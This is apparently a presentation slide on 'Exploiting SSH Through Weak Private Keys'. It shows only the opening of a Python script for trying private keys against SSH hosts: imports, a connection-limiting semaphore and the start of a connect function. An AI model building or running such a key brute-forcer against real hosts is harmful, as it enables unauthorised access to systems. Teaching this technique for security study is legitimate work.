

# Exploiting SSH Through Weak Private Keys CONTD..

import pexpect
import argparse
import os
import threading
maxConnections = 5
connection_lock = threading.BoundedSemaphore(value=maxConnections)
Stop = False
Fails = 0
def connect(user, host, keyfile, release=True):
    global Stop
    global Fails